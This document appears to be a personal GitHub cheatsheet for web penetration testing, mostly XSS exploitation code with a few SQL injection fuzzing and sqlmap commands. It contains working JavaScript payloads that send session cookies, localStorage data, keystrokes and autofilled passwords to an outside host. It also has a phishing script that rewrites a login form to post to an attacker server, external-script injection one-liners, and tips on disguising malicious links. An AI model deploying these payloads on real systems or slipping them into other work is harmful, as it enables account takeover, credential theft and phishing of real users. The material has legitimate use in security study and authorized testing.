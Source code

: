 # Welcome to Useful-Shit/Web!

Hi! This would probably be better as a gist, honestly. But it's my repo and I'll do what I want!
This is basically just a web testing cheatsheet for me but if you find my stuff useful, a star would be appreciated 😁

## Quick Jump:
- [XSS](#xss-copypastas)
- 

# Cross-Site Scripting (XSS)

XSS Payloads for fun and profit. Different types of XSS:

 - **Reflected Server XSS:** often found in locations where user input is sent via GET parameters.
	 - `search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E`
 - **Stored Server XSS:** Literally stored on the server. Think user comments or blog/page posts.
	 - `<script>alert(0)</script>`
 - **Reflected Client XSS:** Same kind of idea as the Server XSS. Stuff some junk into a parameter and see what sticks.
	 - `<img src='x' onerror='alert(1)'>`
 - **Stored Client XSS:** Things like form elements can be taken advantage of to store XSS, for example a survey page for Jarrod has the URL `http://survey.tld/?name=Jarrod` and after filling the survey we end up with a new parameter `http://survey.tld/?name=Jarrod&result`. The answers to the survey could be prone to injection, and should be tested.

## XSS - Exploitation

### Stealing session cookies

Leverage XSS to fetch the payload from a web server you control:

`xss.js`

```javascript
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

This payload may not work if `HttpOnly` is specified in the server headers.

### Stealing local secrets

Local storage may include secrets like API keys or personal user info. There are two types: `sessionStorage` and `localStorage` - session storage only holds data for the session, whereas `localStorage` is the local cache and won't be flushed until explicitly done so.

`local.js`

```javascript
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

### Keylogging

It's keylogging, but through XSS. Let's see what users are typing:

`klog.js`

```javascript
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

### Stealing saved passwords

`stealer.js`

```javascript
let body = document.getElementsByTagName("body")[0]

  var u = document.createElement("input");
  u.type = "text";
  u.style.position = "fixed";
  //u.style.opacity = "0";

  var p = document.createElement("input");
  p.type = "password";
  p.style.position = "fixed";
  //p.style.opacity = "0";

  body.append(u)
  body.append(p)

  setTimeout(function(){ 
          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
   }, 5000);
```

### Phishing users

The concept is simple: Use javascript to *fetch* the login page, and change the action (submit) on the form to point to our listening server hosting the XSS. Take the above **Reflected Server XSS** for example. In the `search.php?s=` parameter, we could use `<script src="10.10.13.37/xss.js"></script>`, but URLEncode it first: `search.php?s=%3Cscript%20src%3D%2210%2E10%2E13%2E37%2Fxss%2Ejs%22%3E%3C%2Fscript%3E`. Now we have a deadly link to send to users, or take it a step further and use a URL shortener 😉

`phish.js`

```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

## XSS Copypastas

 - `<script>alert(0)</script>`

 - `<img src='x' onerror='alert(1)'>`

 - `<img src='x' onerror='alert(document.location)'>`

 - External payload: `<script src="http://10.10.13.37/xss.js"></script>`

 - Insert script from external: `<img src='x' onerror='const script = document.createElement("script"); script.src="http://10.10.13.37/xss-login.js";document.head.append(script);'>`


## SQL Injection (SQLi)

### Fuzzing GET parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```

### Fuzzing POST parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

### sqlmap GET parameter
```shell
sqlmap -u "$URL/index.php?id=1"
```

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.txt` file
```shell
sqlmap -r post.txt -p parameter
```